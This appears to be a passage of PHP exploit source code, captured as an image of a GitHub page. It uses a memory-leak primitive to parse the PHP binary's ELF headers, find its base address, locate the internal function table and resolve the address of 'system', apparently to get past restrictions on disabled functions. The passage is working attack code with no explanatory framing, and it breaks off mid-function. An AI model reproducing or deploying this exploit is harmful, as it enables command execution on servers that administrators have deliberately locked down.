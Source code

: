 ```php
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
```
